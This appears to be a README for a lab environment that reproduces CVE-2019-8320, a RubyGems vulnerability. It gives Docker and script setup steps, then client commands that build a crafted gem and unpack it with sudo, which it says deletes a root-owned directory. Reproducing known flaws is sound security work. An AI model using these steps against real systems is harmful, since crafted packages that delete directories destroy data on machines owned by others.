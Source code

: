 # CVE-2019-8320

## About
<https://nvd.nist.gov/vuln/detail/CVE-2019-8320>


## PoC
<https://hackerone.com/reports/317321>


## Environment used

* Ubuntu 18.04.4 LTS


## Reproduction

* Server
    - Docker:
        ```shell script
        cd Docker\ version/ && sudo docker build -t cve-2019-8320 .
        bash start.sh
        bash stop.sh  
        ```
      
    - Script:
        ```shell script
        cd Script\ version && bash installation.sh
        ```

* Client:
    - Docker:
        ```shell script
        ssh <Server IP> -l guest -p 8022
        ruby builder.rb && sudo gem unpack rm_dir.gem
        ```
    
    - Script:    
        ```shell script
        ssh <Server IP> -l guest -p 22
        sudo bash run.sh 
        ```

The result would be the deletion of */tmp/dir* own by root.

